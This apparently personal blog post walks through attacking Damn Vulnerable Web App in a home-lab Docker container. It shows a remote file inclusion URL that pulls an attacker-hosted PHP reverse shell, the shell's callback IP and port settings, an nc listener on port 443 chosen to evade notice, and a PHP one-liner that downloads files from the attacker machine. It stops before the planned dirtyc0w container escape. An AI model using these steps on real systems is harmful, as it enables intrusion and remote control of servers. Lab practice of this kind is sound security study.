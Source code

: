 ```yaml
---
layout: post
title: Attacking Yourself First
date:   2016-12-27 23:43:12 -0600
Categories: homelab docker webapp pentesting
---
```


## Why not just attack someone else?

Because it's illegal. 

### Attacking a home lab

If you're doing this on a budget, you have a few ways to go about this. You can either use old machines you have laying around to install OSes and applications on and attack those systems or you can do something virtualized. Since I'm doing this on a budget and don't want to reinstall OSes all day, I'm doing this virtualized. I'll be doing this in docker again because why not, but you could just as easily do something in a VM and snapshot it before you really attack. I also am very interested in how docker and containers complicate breaking into systems, so this is as good of a time as any to figure it out.


For this lab, I'm using a docker container of LAMP and a local installation of Damn Vulnerable Web Applications. Let's first get our docker container.

### OK let's go

I'm working off a different Ubuntu image than I usually work off of because I want to be sure my exploits will work (cheating, I know). If we go [here](http://releases.ubuntu.com/) we can find old version of Ubuntu and it even tags the date they were released. I downloaded and installed Server 14.04.5 and installed a few applications

~~~
<Install the OS, select the SSH Server as the additional functionality>
sudo apt-get install git docker.io
sudo usermod -aG docker $USER
<reboot or log out and back in>
~~~

That's enough believe it or not, the rest will come with our container.

Getting this built took longer than I expected, but if you check [my github](https://github.com/remotephone) page you'll see a repo for dvwa-lamp. This is a docker container than includes the [Damn Vulnerable Web App](https://github.com/ethicalhack3r/DVWA) bundled inside a lamp container I forked off [tutum](https://github.com/tutumcloud/lamp).

You can follow the instructions in the README or do just do this:

~~~
git clone https://github.com/remotephone/dvwa-lamp.git
cd dvwa-lamp
docker build -t remotephone/dvwa-lamp .
docker run -d -p 80:80 -p 3306:3306 remotephone/dvwa-lamp 
<wait some seconds and then browse to...>
http://<Victim IP>/setup.php
~~~

And you're set! Install the database by completed the setup and login as admin/password. 

### Explotiation and notes

Now let's get started. We're going to move from a web app to a Docker container and see if we can make it to the host. For the purposes of this demo, I'm going easy mode, we're going to set the security level to "Low" in DVWA Security in the sidebar and then go to the File Inclusion tests.

[Remote File Inclusion](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/) is a nasty vulnerability that allows you to manipulate insecurely coded requests for resources to instead call to resources you control. While the web server may intend to display information from a local file on the webserver, you can instead redirect the webserver to call a file you host and even execute the code if the server knows how to interpret it. One of the most simple examples is tricking a server to  call a php script you host and excuting that to send you a reverse shell.

For this exercise, I'll use [laudunum](https://blog.secureideas.com/2014/01/professionally-evil-software-laudanum.html). While the link for the latest release doesn't work, you can find it in the laudunum package as part of Kali linux. We're going to use the RFI vulnerability to call a webshell we host on our local web server, listen with ncat to catch our reverse shell, use the shell to upload a kernel exploit, and see if we can use that to escape our container. 

To make this work, you need a few things. First, get your container running. Next, get you webshells ready in your /var/www/html directory. I'm using php-reverse-shell.php from the laudunum package and I've updated the file to point back to my attacking server. I always use ports 443 or 80 if possible for reverse shells, firewalls tend to allow this traffic out and it's not suspicious if someone netstats an affected server. This is the part of the webshell I modified:

~~~
$VERSION = "1.0";
$ip = '192.168.1.20';  // CHANGE THIS
$port = 443;       // CHANGE THIS
~~~

It's conveniently marked with "CHANGE THIS" so you know what to update. If you want to change some of the actions under $shell, you can, especially if for some reason bash or sh is not in the /bin/ directory. Now let's get a shell.

### Getting your foot in the door

First we'll go to the File Inclusion page. At this point, my attacking machine has apache running, I've copied and fixed my reverse shell, hosted it in my /var/www/html folder, I've started a nc listener with nc -nlvp 443 and I've browsed to the RFI page. The RFI is easy peasy here, this request in your browser will trigger it:

~~~
http://192.168.1.17/vulnerabilities/fi/?page=http://192.168.1.20/php.txt
~~~

It's important to use the .txt extension since using .php will cause your browser to interpret the script and you'll reverse shell yourself, which isn't as exciting. In this particular page, you can View Source to see the site isn't doing anything to append anything to your requested page, so you don't need to use null characters to terminate the request. 

Now we've got a reverse shell. Now what? It's time to enumerate. Since I borrowed this container from tutum, there was some learning I had to do. If we enumerate the kernels, we learn that we're running a version that's vulnerable to
dirtyc0w. Since the container is simply an "isolated" sandbox on the VM, we can expect it to be running the same kernel version as the VM, and we're right:

![Kernels]({{site.url}}/images/kernels.png){: .center-image }

For giggles, let's run a Centos container and see what it's running under the hood. 

![Centosbuntu]({{site.url}}/images/Centosbuntu.png){: .center-image } 

That's interesting! There's no difference between the kernel in the container and the one in the VM. It'd be interesting to see how important that is, but that's kind of outside the scope of what I'm doing. Let's keep poking around. 

If we have a vulnerable kernel, we need to get our exploit to the box. How do we do that? We could echo it line by line into a file, but that's so painful over a reverse shell. If we check for applications on the server, we are missing things like wget, curl, and fetch. We do have python, perl, so that's nice. If we go a little further and check the /usr/bin directory, we find sftp. That's handy, but where did it come from?

Remember the Dockerfile [from here](https://github.com/remotephone/dvwa-lamp/blob/master/Dockerfile)? If you look at the files installed, sftp was installed as part of openssh-client. From the container:

~~~
$ dpkg -S /usr/bin/sftp
openssh-client: /usr/bin/sftp
~~~

If you run a default Ubuntu container though, openssh-client isn't included, it was installed as part of git.  Check for yourself in a default Ubuntu container, lots of the stuff we'd typically rely on getting files into and out of a server we're in aren't there. No ftp, no tftp, no wget, curl, fetch, etc etc. This complicates getting our exploit code on to the server. Further, it complicates compiling it once it's there.  

In the spirit of living off the land, let's start with what got us here to begin with, php. We have rights to the system, we can move around in a shell, let's see if we can excute php. This isn't pretty, but it proves my point, we can execute arbitrary php commands.

![PHP Works]({{site.url}}/images/phpworks.png){: .center-image } 
 
Let's find somewhere we can write to, then we'll use our php file inclusion vulnerability to bring a file in of our choosing. We need somewhere we can write to, and /tmp is often available. The same is the case here:

~~~
$ ls -asl /tmp
total 8
4 drwxrwxrwt  2 root root 4096 Jan 12 03:21 .
4 drwxr-xr-x 54 root root 4096 Jan 12 03:21 ..
~~~

To download a file with php, we can use this simple oneliner. 

~~~
php -r 'file_put_contents("test", file_get_contents("http://192.168.1.20/test"));'
~~~

I created a file called test on my web server and echo'ed hello into it so it had something we can see work, and voila! It transfers.

![PHP Download]({{site.url}}/images/phpdownloads.png){: .center-image }

So now that we can move files to and from our server, we need to figure out how to get our exploit there. We don't have gcc available, which makes this difficult. 


**The plan originally was to use a dirtyc0w exploit on the container and get an escape. I want a scenario that's not completely artificial but at the same time reproducible, so I need to plan this some more. The short of it all is, you can use kernel exploits to escape container space and compromise the host. More on this later. I started some courses from udemy and they're taking up enough of my time where I don't want to stop adding content to give myself enough time to figure out how to write this scenario properly AND still get something done with my studies. I'll be updating this soon**
----to be continued....---
